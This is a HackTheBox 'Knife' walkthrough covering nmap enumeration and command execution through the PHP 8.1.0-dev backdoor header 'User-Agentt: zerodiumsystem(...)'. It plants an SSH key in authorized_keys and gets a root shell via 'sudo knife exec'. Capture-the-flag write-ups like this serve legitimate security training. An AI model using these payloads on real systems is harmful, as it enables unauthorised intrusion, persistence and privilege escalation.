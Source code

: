 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Knife](https://app.hackthebox.com/machines/Knife)

> [!tip]- Summary with Spoilers
> - This machine was running PHP version `8.1.0-dev`, which includes a known backdoor vulnerability.
> - I used a crafted `User-Agentt` header to achieve RCE and gain access as the `james` user.
> - Privilege escalation was achieved by exploiting the `knife` command with `sudo`, following the [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) instructions for a root shell.

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 12:37 CST
Nmap scan report for 10.10.10.242
Host is up (0.12s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check the PHP version:

```console
$ curl -si http://$t | grep X-Pow
X-Powered-By: PHP/8.1.0-dev
```

## Exploitation

[PHP version 8.1.0-dev has a remote code execution vulnerability](https://www.exploit-db.com/exploits/49933). It's actually a malicious backdoor that was quickly discovered and removed in 2021.[^1]

It is easily exploited using a sneaky HTTP header:

```console
$ curl -s -H 'User-Agentt: zerodiumsystem("id");' http://$t  | head -n1
uid=1000(james) gid=1000(james) groups=1000(james)

$ curl -s -H 'User-Agentt: zerodiumsystem("cat /home/james/user.txt");' http://$t  | head -n1
a5c3a0[...]
```

I could also create a reverse-shell using the technique above. But why do that when I could get a proper SSH login shell?

```console
$ curl -si -H 'User-Agentt: zerodiumsystem("echo ssh-ed25519\ AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T\ e@notahacker >> /home/james/.ssh/authorized_keys");' http://$t  | head -n1
HTTP/1.1 200 OK

$ ssh james@$t
The authenticity of host '10.10.10.242 (10.10.10.242)' can't be established.
ED25519 key fingerprint is SHA256:U3tuGrGxSv//jAzSQDRiUNlQnE6LWwounrcc2Bd0qC4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.242' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[...]

james@knife:~$ cat .ssh/authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T e@notahacker
```

## Privilege Escalation

```console
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

`knife` is a utility used with [Chef](https://docs.chef.io/workstation/knife/).

```console
james@knife:~$ /usr/bin/knife --help
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
[...]
```

There is an [entry for knife in GTFOBins](https://gtfobins.github.io/gtfobins/knife/). Like so:

```console
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
## id
uid=0(root) gid=0(root) groups=0(root)
## cat /root/root.txt
a5c3a0[...]
```
